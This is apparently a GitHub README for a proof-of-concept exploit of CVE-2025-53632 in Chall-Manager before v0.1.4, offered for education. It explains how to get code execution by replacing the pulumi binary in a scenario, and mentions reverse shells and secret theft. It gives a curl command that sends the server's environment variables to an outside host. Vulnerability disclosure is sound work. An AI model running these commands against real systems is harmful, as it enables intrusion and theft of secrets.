

# CVE-2025-53632

This repository contains an **exploit of CVE-2025-53632** affecting [Chall-Manager](https://github.com/ctfer-io/chall-manager) < v0.1.4.
The affected versions are clearly outdated and most probably used by nobody, so I'm confident there is no malicious exploitaiblity of the current.

This repository is not giving you the right to attack anybody, but meant for **education purposes**.

> [!WARNING]
> The way Chall-Manager deals with scenarios, it is still completly exploitable without the zip slip: simply tamper the `pulumi` binary from the scenario such that the next execution runs your arbitrary code.

We demonstrates the attack over [Chall-Manager v0.1.3](https://hub.docker.com/layers/ctferio/chall-manager/v0.1.3/images/sha256-e3d5d7a5e6f93f5e9581462587576ca18c527a3d6dbd8535fedf3a605588ecf2).

## Scenario

Let's imagine an exposed Chall-Manager (please don't do so, it is not meant to be as it is an RCE-on-demand app).

When creating a challenge, the scenario is validated by a Pulumi preview.
There is no control over this very code, so we are able to inject **anything**.

To do so, Chall-Manager uses the [`auto` API of Pulumi](https://github.com/pulumi/pulumi/tree/master/sdk/go/auto), which executes the Pulumi binary. It performs so with no absolute path, as it expects it to be at `/pulumi/bin/pulumi` (`$PATH` starts with `/pulumi/bin`).

Using these information, we are going to tamper the `pulumi` program by injecting some shell code ahead of its execution.
As the scenario will then be validated, the tampered `pulumi` program will be executed, running the script.

From this script, you are now able to open a reverse shell, pivot through the infrastructure or within the container, leak secrets (e.g. contained in environment variables) or even challenge content (e.g. the challenge flag if one scenario has not been prebuilt).

## Requirements

To run this exploit demo you'll need:
- [`docker`](https://docs.docker.com/engine/install/) ;
- [`go`](https://go.dev/doc/install).

## Exploit

1. Run chall-manager.
    ```bash
    docker run --name chall-manager -d -p 8080:8080 ctferio/chall-manager:v0.1.3
    ```

2. Run `main.go`
    ```bash
    go run main.go --url localhost:8080
    ```

    Be inventive with your script ! For instance, you can send system info to a third party...
    ```bash
    go run main.go --url localhost:8080 --script 'curl -d "$(env)" https://app.beeceptor.com/console/cve-2025-53632'
    ```

    <div align="center">
        
    </div>

3. You can stop the demo Chall-Manager Docker container once done.
    ```bash
    docker stop chall-manager && docker rm $_
    ```
